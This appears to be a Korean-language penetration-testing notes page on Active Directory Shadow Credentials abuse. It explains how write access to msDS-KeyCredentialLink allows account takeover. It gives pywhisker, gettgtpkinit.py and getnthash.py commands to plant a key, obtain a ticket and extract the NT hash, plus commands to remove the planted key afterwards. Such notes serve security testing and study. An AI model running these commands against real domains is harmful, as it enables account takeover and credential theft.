


# AddKeyCredentialLink

* 대상의 `msDS-KeyCredentialLink` 특성을 수정할 수 있는 권한. 공격자는 새로운 public/private key 페어를 만든 뒤, 해당 특성에 만들어놓은 public key를 추가한다. 이는 추후 ADCS 등을 이용한 PKINIT 사용자 인증에 사용되며, 공격자는 이를 통해 대상 계정을 장악할 수 있게 된다.
* 블러드하운드 Edge


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 악용 - 컴퓨터, 유저

* 대상의 `msDS-KeyCredentialLink` 에 공격자의 public key 를 추가해 PKINIT 사용자 인증을 할 때 공격자의 public key 를 사용하게끔 한다. 이를 이용해 대상 계정을 장악한 후, NT Hash 를 얻을 수 있게 된다. 머신 계정와 유저 계정 모두 같은 방법으로 장악 가능하다.

```
# Pywhisker 를 통한 msDS-KeyCredentialLink 수정. 
# 이때, DeviceID, PFX filename, PFX Password 를 따로 기록해놓는다. 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target
```

## 유의점

* 대상의 `msDS-KeyCredentialLink` 를 수정하고 공격자 public key 를 추가하기 때문에, 공격이 끝난 뒤 추가해놨던 공격자의 키를 제거하도록 한다.
* 위 pywhisker 를 사용했을 때의 DeviceID 가 여기서 사용된다.

```
# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```


